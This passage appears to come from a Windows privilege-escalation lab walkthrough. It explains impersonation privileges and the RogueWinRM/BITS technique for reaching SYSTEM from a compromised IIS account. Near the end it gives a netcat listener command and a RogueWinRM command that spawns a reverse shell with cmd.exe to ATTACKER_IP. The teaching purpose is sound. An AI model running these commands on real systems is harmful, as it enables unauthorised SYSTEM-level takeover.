 ```
Now, if user Ann logs in to the FTP service and given that the ftp user has impersonation privileges, it can borrow Ann's access token and use it to access her files. This way, the files don't need to provide access to user ftp in any way, and the operating system handles authorisation. Since the FTP service is impersonating Ann, it won't be able to access Jude's or Bill's files during that session.

As attackers, if we manage to take control of a process with SeImpersonate or SeAssignPrimaryToken privileges, we can impersonate any user connecting and authenticating to that process.

In Windows systems, you will find that the LOCAL SERVICE and NETWORK SERVICE ACCOUNTS already have such privileges. Since these accounts are used to spawn services using restricted accounts, it makes sense to allow them to impersonate connecting users if the service needs. Internet Information Services (IIS) will also create a similar default account called "iis apppool\defaultapppool" for web applications.

To elevate privileges using such accounts, an attacker needs the following: 1. To spawn a process so that users can connect and authenticate to it for impersonation to occur. 2. Find a way to force privileged users to connect and authenticate to the spawned malicious process.

We will use RogueWinRM exploit to accomplish both conditions.

Let's start by assuming we have already compromised a website running on IIS and that we have planted a web shell on the following address:

http://10.10.25.98/

We can use the web shell to check for the assigned privileges of the compromised account and confirm we hold both privileges of interest for this task:

![img](/assets/img/wpe20.png)

To use RogueWinRM, we first need to upload the exploit to the target machine. For your convenience, this has already been done, and you can find the exploit in the ```C:\tools\``` folder.

The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.

If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM.

Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:

KaliLinux
```
user@attackerpc$ nc -lvp 4442
```

And then, use our web shell to trigger the RogueWinRM exploit using the following command:

```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

![img](/assets/img/wpe21.png)

Note: The exploit may take up to 2 minutes to work, so your browser may appear as unresponsive for a bit. This happens if you run the exploit multiple times as it must wait for the BITS service to stop before starting it again. The BITS service will stop automatically after 2 minutes of starting.

```